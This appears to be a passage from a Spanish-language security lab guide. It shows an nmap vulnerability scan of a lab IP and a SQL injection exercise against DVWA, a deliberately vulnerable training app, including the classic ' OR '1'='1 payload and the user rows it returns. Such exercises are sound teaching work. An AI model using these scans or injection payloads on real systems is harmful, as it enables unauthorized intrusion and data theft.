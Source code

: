 **1.4 Escaneo de Vulnerabilidades**
```bash
# Buscar vulnerabilidades conocidas
nmap --script vuln 172.25.0.30
```

---

### 🕷️ ACTIVIDAD 2: SQL Injection en DVWA (20 minutos)

#### Objetivo
Demostrar explotación de SQL injection para extraer datos de la base de datos.

#### Pasos

**2.1 Configuración Inicial de DVWA**

1. Abrir navegador: `http://localhost:8080`
2. **Login:** admin / password
3. **Setup:** Click "Create / Reset Database"
4. **Volver a loguearse:** admin / password
5. **Configurar seguridad:** DVWA Security → Low → Submit

**✅ Resultado Esperado:**
- Página principal de DVWA visible
- Menú lateral con vulnerabilidades disponibles
- Nivel de seguridad en "Low"

**2.2 Identificación Manual de SQL Injection**

```bash
# Navegar a: http://localhost:8080/vulnerabilities/sqli/

# Prueba 1: Entrada normal
User ID: 1
Click "Submit"
```

**✅ Resultado Esperado:**
```
ID: 1
First name: admin
Surname: admin
```

```bash
# Prueba 2: SQL Injection básico
User ID: 1' OR '1'='1
Click "Submit"
```

**✅ Resultado Esperado:**
```
ID: 1
First name: admin
Surname: admin

ID: 2  
First name: Gordon
Surname: Brown

ID: 3
First name: Hack
Surname: Me

ID: 4
First name: Pablo
Surname: Picasso

```